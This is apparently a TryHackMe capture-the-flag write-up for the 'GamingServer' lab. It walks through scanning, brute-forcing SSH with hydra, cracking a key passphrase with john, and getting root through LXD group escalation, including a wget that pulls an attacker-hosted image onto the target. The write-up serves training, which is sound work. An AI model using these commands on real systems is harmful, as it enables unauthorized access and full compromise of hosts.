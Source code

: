```yaml
---
title: TryHackMe - GamingServer
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe, Easy]
tags: [tryhackme, linux, nmap, privesc, http, gobuster, ssh, brute, lxd]
image:
    path: /assets/img/try%20hack%20me%20/Easy/GamingServer/0.jpeg
    alt: GamingServer
---
```


# GamingServer

- An Easy Boot2Root box for beginners.  
- Can you gain access to this gaming server built by amateurs with no experience of web development and take advantage of the deployment system.  

# Tasks
- find the user flag and the root flag.  

# nmap

```sh
nmap -sV -sC -v 10.10.69.28
```

```sh
Scanning 10.10.69.28 [1000 ports]
Discovered open port 80/tcp on 10.10.69.28
Discovered open port 22/tcp on 10.10.69.28
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
| 256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_ 256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# http_80

## ip `10.10.69.28`

## Gobuster

```sh
gobuster dir -u http://10.10.69.28 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![](/assets/img/try%20hack%20me%20/Easy/GamingServer/1.png)

## /secrets  
![](/assets/img/try%20hack%20me%20/Easy/GamingServer/2.png)  
I got a secret file that after downloading i found that it was a `ssh RSA`  
![](/assets/img/try%20hack%20me%20/Easy/GamingServer/3.png)  


![](/assets/img/try%20hack%20me%20/Easy/GamingServer/4.png)
surfing through the web i get an upload directory.
## /uploads
![](/assets/img/try%20hack%20me%20/Easy/GamingServer/5.png)

I downloaded the dict.lst file that contains a list of i think passwords or usernames.  
![](/assets/img/try%20hack%20me%20/Easy/GamingServer/6.png)

- Manifesto.txt file that is a  very useless manifesto that is only there to teach you poetry`



## source-code
Going back i got a comment from the dev.  
![](/assets/img/try%20hack%20me%20/Easy/GamingServer/7.png)


## so far we have  
- ssh RSA
- A dict.lst = i assume is a  wordlist
- A user : john 

# ssh_22

First attempt
----------------------------------------------
```sh
hydra -l john -P dict.lst 10.10.69.28 ssh 
```
![](/assets/img/try%20hack%20me%20/Easy/GamingServer/8.png)

-------------------------------------------------
Second Attempt
-------------------------------------------------
```sh
	ssh2john secretKey > secret  
	john --wordlist=dict.lst secret
```
![](/assets/img/try%20hack%20me%20/Easy/GamingServer/9.png)
---------------------------------------------------
Third Attempt
---------------------------------------------------
```sh
chmod 600 secretKey
ssh john@10.10.69.28 -i secretKey
```
This was much better.  
![](/assets/img/try%20hack%20me%20/Easy/GamingServer/10.png)

-----------------------------------------------------
Forth Attempt
-----------------------------------------------------
```sh
/usr/share/john/ssh2john.py secretKey > secret
sudo john secret -w=dict.lst
```
![](/assets/img/try%20hack%20me%20/Easy/GamingServer/11.png)

Now i have the passphrase `letmein`  
Later, back to my senses and spotted my mistakes,Can you??  

-------------------------------------------------------
Login to ssh john
-------------------------------------------------------
```sh
	sudo ssh john@10.10.69.28 -i secretKey
	#passphrase = letmein
```

And now i have a shell.

`ls` and `cat user.txt` to get the user flag.  


# PRIVILEGE ESCALATION
```sh
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

We use a method called `Lxd Privilege Escalation`  
Privilege escalation through lxd requires the access of local account, Good thing for us since we have SSH access already.  
Note: the `most important condition` is that the user should be a `member of lxd group`.  

1. To start with we need to download the lxd-alpine image builder to our local machine:  
```sh
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder 
sudo ./build-alpine -a i686 #run the build-alpine
```
When you ls the directory you will see that you have the image file with the .gz extension.  

2.  we need to setup a simple http server and upload to the image file to the remote machine.  
```sh
python3 -m http.server
```
We can use wget on the remote machine to upload the .qz file.  
```sh
wget http://10.8.172.59:8000/alpine-v3.19-i686-20240201_2212.tar.gz
```

3. Once uploaded we next need to import the image into lxd.  
```sh
lxc image import alpine-v3.19-i686-20240201_2212.tar.gz --alias alpine
```
If we use the command, “lxc image list”, we can see that the image is now available on lxd.

4. Now we need to create a machine from the image.  
```sh
lxc init alpine privesc -c security.privileged=true
```
Where alpine is the image file and privesc is what I am calling the machine.  

5.  we need to add a hard drive to the machine, the privesc technique in this case looks to have the whole host
mounted in the `/mnt/root` and thus you have root access.  
```sh
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

As noted above the machine privesc is currently stopped, so we will need to start it:
```sh
lxc start privesc
```
To exploit the machine
```sh
lxc exec privesc /bin/sh
```

![](/assets/img/try%20hack%20me%20/Easy/GamingServer/12.png)
